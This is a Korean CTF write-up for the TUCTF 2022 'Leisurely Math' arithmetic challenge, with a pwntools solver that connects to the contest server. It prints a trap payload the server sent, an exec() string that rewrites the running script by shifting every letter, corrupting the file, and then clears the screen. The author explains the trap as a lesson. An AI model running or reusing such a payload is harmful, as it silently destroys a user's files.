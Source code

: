 ```yaml
---
layout: post
title: [TUCTF] Leisurely Math
subtitle: 2022 TUCTF
categories: CTF
tags: [Programming]
---
```


**TUCTF is a jeopardy-style Capture the Flag (CTF) competition designed for all ranges of experience.**


**A jeopardy-style CTF is a CTF where you earn your team points for solving a challenge that's listed under a specific category with a specific point value.**

**The end goal of each challenge is usually to get a string of text called a flag that's usually in flag format.** 

**Our flag format looks something like this: TUCTF{3x4mpl3_fl4g}.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205560652-a077dcac-3875-4d52-b7b3-7f74e251ee6e.png" width = 400>
</p>

연산의 속도를 향상시키라는 문제였습니다. 제공되는 파일이 없고 `nc`를 하면 연산 해야할 식이 나오고 답을 입력하는 칸이 있었습니다.

정답이면 `Correct!`, 오답이면 `Incorrect!`를 출력하고 다음 문제를 제공합니다.

해당 CTF의 카테고리가 **Programming**인 것을 감안하면 코딩 테스트의 느낌일 거라 생각하고 Exploit을 짰습니다.

문제를 진행하면서 같이 아래와 같은 문자열이 recv되었습니다.

```
230 4453 - 681 - 2447 * 5357 + 2341 * 4798
231 1994 - 9965 - 609 + 9135 * 7461 + 1190 - 583 - 429 + 6355 * 1415 - 4489
232 5199 * 7772 + 9975 - 9767 * 5763 + 4285 * 4026 + 3145 * 7783 + 2071 * 5615
233 exec('\nimport os\nscript_path = os.path.realpath( __file__ )\nnew_program = ""\nwith open( script_path, "r" ) as f:\n    lines = f.readlines()\n    for line in lines:\n        for char in line:\n            if char.isalpha():\n                new_program += chr( ord( char ) + 1 )\n            else:\n                new_program += char\nwith open( script_path, "w" ) as f:\n    f.write( new_program )\nos.system( "cls" )\nos.system( "clear" )\n')
```

233번째를 확인해보면 현재 경로에서 모든 값을 **+1**한 아스키로 변환하는 것을 확인 할 수 있다.

결국 진행중인 Exploit 코드를 망가뜨리는 트리거가 존재하는 것을 확인할 수 있었고, 해당 문자열이 나오는 경우 `continue`로 스킵했습니다.

## Exploit Logic

숫자와 사칙연산 기호만으로 이루어져 있으므로, 각각을 하나의 토큰으로 나눈다.

이에 **+, -**는 사칙연산의 우선 순위가 **\*, /**보다 낮으므로 계산을 하지 않고, 새로운 리스트에 하나씩 append한다.

> ex) 2053 - 2356 > lst = [2053, '-']

**\*, /**가 나오면 연산자 기준 `-1, +1`의 값을 연산하여 리스트에 append한다.

> ex) 25 * 4 > lst = [100]

하지만, **\*, /**의 연산자가 연속으로 나오게 된다면 연산자 기준 -1, +1에 값을 모두 연산하여 리스트에 넣었기에 이후의 연산자는 리스트에 들어간 값을 이용 해야 하므로 이를 확인할 수 있는 `tmp`라는 flag를 두었다.

_하지만, python에서 제공하는 `eval`를 사용한다면 쉽게 풀이가 가능하다..._

### Exploit

```python
from pwn import *

p = remote('chals.tuctf.com', 30202)

def calc(tokens):

    lst = []
    tmp = False # 이전 연산자 *, / check
    for i in range(1, len(tokens), 2):
        if tokens[i] == '+' or tokens[i] == '-':
            if tmp == False:
                lst.append(int(tokens[i-1]))
                lst.append(tokens[i])
                try:
                    not tokens[i+2]
                except IndexError:
                    lst.append(tokens[i+1])
            else:
                lst.append(tokens[i])
                tmp = False
                try:
                    not tokens[i+2]
                except IndexError:
                    lst.append(tokens[i+1])
        else:
            if tmp == False:
                tmp = True
                x = int(tokens[i-1])
                y = int(tokens[i+1])
                if tokens[i] == '*':
                    lst.append(x*y)
                else:
                    lst.append(x/y)
            else:
                x = int(lst[-1])
                y = int(tokens[i+1])
                lst.pop()
                if tokens[i] == '*':
                    lst.append(x*y)
                else:
                    lst.append(x/y)
    
    answer = lst[0]
    
    for i in range(1, len(lst), 2):
        if lst[i] == '+':
            answer += int(lst[i+1])
        else:
            answer -= int(lst[i+1])
    
    return answer


def main():
    i = 0
    while True:
   
        question = (p.recvline().rstrip(b'\n')).decode('utf-8')
        if question == 'Correct!':
            question = (p.recvline().rstrip(b'\n')).decode('utf-8')
            print(f'{i} {question}')

        if 'exec' in question:
            print('exec founded')
            continue
    
        i += 1    
        question = question.split(' ')
        answer = calc(question)
        p.sendlineafter('Answer: ',str(answer))

if __name__ == '__main__':
    main()

```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205563137-8dffec0c-4b3b-401e-89fd-9840d0d917f3.png" width = 550>
</p>